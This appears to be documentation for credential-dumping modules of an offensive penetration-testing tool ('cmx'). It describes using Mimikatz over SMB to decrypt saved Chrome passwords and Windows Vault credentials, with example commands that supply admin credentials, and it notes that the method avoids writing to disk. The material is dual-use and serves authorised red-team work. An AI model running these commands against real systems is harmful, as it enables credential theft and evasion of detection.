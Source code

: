 --------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikatz_enum_chrome      
Executes PowerSploit's Invoke-Mimikatz.ps1 script (Mimikatz's DPAPI Module) to decrypt saved Chrome passwords  
        Pros and cons vs the standard enum_chrome module:  
            + Opsec safe, doesn't touch disk  
            - Tends to error out and/or not decrypt all stored credentials (not sure why exactly, should work perfectly in theory)  

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true  

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz_enum_chrome
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikatz_enum_vault_creds 
Executes PowerSploit's Invoke-Mimikatz.ps1 script and decrypts stored credentials in Windows Vault/Credential Manager

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 

**Options:**
```

```
**Example Usage:**
```
~# cmx smb 192.168.1.121 -u tcat -p 'User!23' -M mimikatz_enum_vault_creds
```
**Expected Results:**
```

~# 
```
--------------------------------------------------------------------------------------------------------------------------------------------------------
## mimikittenz               
Executes the Mimikittenz script

Multiple_Host | Requires LA | Requires DA | Opsec_safe
|---|---|---|---|
true | true | false | true 
